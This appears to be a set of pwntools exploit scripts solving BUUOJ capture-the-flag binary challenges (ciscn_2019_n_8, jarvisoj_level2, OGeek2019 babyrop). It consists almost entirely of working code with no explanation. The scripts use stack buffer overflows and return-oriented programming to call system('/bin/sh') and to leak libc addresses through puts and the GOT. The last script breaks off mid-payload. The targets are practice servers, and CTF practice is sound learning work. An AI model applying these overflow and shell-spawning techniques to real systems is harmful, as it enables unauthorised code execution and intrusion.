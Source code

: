```python

io.sendline(b'0')
io.interactive()
```
# buu009-ciscn_2019_n_8

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26497)
io.sendlineafter(b'What\'s your name?', cyclic(4 * 13) + p32(17))

io.interactive()
```
# buu010-jarvisoj_level2

```python
from pwn import *

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29788)
elf = ELF('./pwn')

binsh_addr = 0x804a024

io.sendlineafter(b'Input:', cyclic(0x88) + p32(elf.symbols['main']) + p32(elf.plt['system']) + p32(binsh_addr) + p32(binsh_addr))

io.interactive()
```
# buu011-[OGeek2019]babyrop

```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27628)
elf = ELF('./pwn')
exp = 0x8048825
ret = 0x8048502

io.send(b'\x00' + b'\xFF' * 0x1f)

payload = cyclic(0xe7 + 4)
payload += p32(elf.plt['puts'])
payload += p32(exp)
payload += p32(elf.got['read'])

io.sendlineafter(b'Correct\n', payload)
io.send(b'\x00' + b'\xFF' * 0x1f)
read = u32(io.recv(4))
libc = ELF('./libc-2.23.so')
base = read - libc.symbols['read']
sys = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

payload = cyclic(0xe7 + 4)
payload += p32(sys)
```